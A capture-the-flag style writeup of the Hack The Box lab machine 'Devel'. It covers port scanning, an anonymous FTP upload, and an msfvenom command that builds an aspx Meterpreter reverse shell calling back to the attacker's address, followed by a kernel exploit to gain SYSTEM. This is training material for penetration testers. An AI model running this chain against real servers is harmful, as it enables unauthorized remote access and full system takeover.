 ```yaml
---
layout: post
title: HTB - Devel Writeup
date: 2019-01-02
image: '/images/posts/htb/devel/devel.jpg'
categories: ["writeups"]
tags: ["writeups", "devel", "htb"]
---
```


* Box: Devel
  - Difficulty: Easy
  - Points: 20
  - Release: 15 Mar 2017
  - IP: 10.10.10.5

###Initial Enumeration

####Nmap Scanning

Let's start with a scan of the target ip address:

`nmap -sC -A -oN devel.nmap 10.10.10.5`

The Nmap scan reveals Microsoft FTP port 21 and Microsoft IIS 7.5 port 80 open.

####Website Enumeration

After opening **Firefox** and visit the website **http://10.10.10.5** we get the default IIS 7 webpage.

Dirbuster enumeration provides us no further insight so we move our eyes over to the open FTP port.

####FTP Enumeration

From our Nmap scan, we can see 2 files under the FTP.

<img src="/images/posts/htb/devel/devel1.jpg">

###Exploitation

Connecting anonymously via FTP reveals that it does allow anonymous logins. This misconfiguration is common.

<img src="/images/posts/htb/devel/devel2.jpg">

Since our user can upload files, we can simply create a **aspx** reverse shell and execute it by browsing to the file via the web server.

####Payload Generating/Delivery

The following command will create a aspx file that we will use:

`msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o devel.aspx LHOST=10.10.14.28 LPORT=4444`


**Set up a listener in Metasploit and open the file in the web browser:**

<img src="/images/posts/htb/devel/devel3.jpg">

After trying to navigate through some directories we quickly realize we need escalated permissions.

####Privilege

Put the session in the background:

`background`

Then use the following command to suggest local meterpreter exploits that can be used.

<img src="/images/posts/htb/devel/devel4.jpg">

<img src="/images/posts/htb/devel/devel5.jpg">

After testing the first local exploit  `exploit/windows/local/bypassuac_eventvwr`, we see that it fails due to the IIS user not being a part of the administrators group. (This is usually default and to be expected)

The next exploit we test is:

`exploit/windows/local/ms10_015_kitrap0d`

This will attempt to create a new session with **SYSTEM** privileges.

<img src="/images/posts/htb/devel/devel6.jpg">

Now that we have the exploit worked, we have SYSTEM access, let's look for the root and user flags.

The root flag is on the Administrators desktop:

<img src="/images/posts/htb/devel/devel7.jpg">

The user flag is on the "babis" user's desktop:

<img src="/images/posts/htb/devel/devel8.jpg">
